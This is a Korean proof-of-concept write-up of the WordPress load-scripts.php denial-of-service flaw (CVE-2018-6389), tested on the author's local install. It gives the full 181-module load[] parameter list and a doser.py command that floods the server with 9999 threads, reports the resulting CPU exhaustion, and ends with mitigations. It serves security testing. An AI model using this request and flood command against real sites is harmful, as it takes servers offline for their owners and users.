

CVE-2018-6389 POC
Table of Contents
1 취약점 개요
- 서버 CPU에 부담을 주는 타입의 Dos 공격
- 본래 성능을 위한 기능인 load-scripts.php, load-styles.php 의 취약점을 악용함
- wp-login.php 에도 해당 기능이 들어가 있으므로 인증 없이 공격이 가능하다. (만약 wp-login.php 페이지에 접근 제한이 걸려있으면 공격이 불가능할 것임)
- 이 페이지에서는 실제로 공격이 가능한지 검증해 보고자 한다.
2 POC 개요
2.1 해킹 환경
- 예전에 설치해두었던 워드 프레스를 활용한다.
3 POC 진행
3.1 load-scripts 구동여부 체크
http:/localhost/wordpress/wp-admin/load-scripts.php?c=1&load[]=jquery-ui-core&ver=4.9.1 를 요청해본다.
설명글에서처럼 jQuery UI 의 js코드를 출력해주는 것을 볼 수 있다. 이 것으로 load-scripts.php가 구동중인 것을 확인하였다.

3.2 script-loader.php 체크
script-loader.php에는 각종 스크립트를 로드하기 위한 코드가 있는 것을 확인하였다. 
3.3 load[] 파라메터에 로드 가능한 모든 스크립트를 지정
script-loader.php에 적혀있는 다음 181개의 모듈을 load[]파라메터에 지정한다.
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
결과는 다음과 같다. 정상적으로 서버에서 처리된 것을 알 수 있다. 2.2 초 걸렸다는 설명글과는 달리 1초 이내로 서버측에서 회신이 왔다. 이 것은 해킹 환경이 로컬환경이라서 네트워크 부하만큼의 시간이 추가되지 않은 것으로 보인다.

3.4 doser.py 를 사용해서 다량의 동일한 요청을 보내기
동일한 요청을 엄청나게 많이 보내면 어떻게 될까? 최초 보고자가 제공한 doser.py 를 사용해서 테스트를 해보겠다.
아래의 명령은 동일한 GET 요청을 9999개의 스레드로 실행하는 명령이다.
python doser.py -g '공격URL' -t 9999
결과는 다음과 같다.


서버측의 상태를 정리하면 다음과 같다.
- 서버측 CPU 사용량이 거의 100% 가깝게 올라가있는 상태가 지속된다. (정상적인 운영이 어려운 정도)
- 요청을 처리하기 위한 apache2 프로세스가 엄청나게 늘어난다.
- access 로그(/var/log/apache2/access.log)의 용량이 갑자기 수메가바이트 늘어난다.
여기까지의 POC를 통해 실제로 DOS공격이 가능한 것을 확인하였다.
4 대응 방법
워드프레스 개발팀은 이 취약점을 대응하지 않겠다고 했다.
현재까지 알려진 대응방법은
- 워프프레스에서 load 모듈의 사용을 막는 유저 패치 적용
- 아파치에서 동시 요청 제한
이다. 다음 글에서는 이 대응 방법에 대해서 검증해보겠다.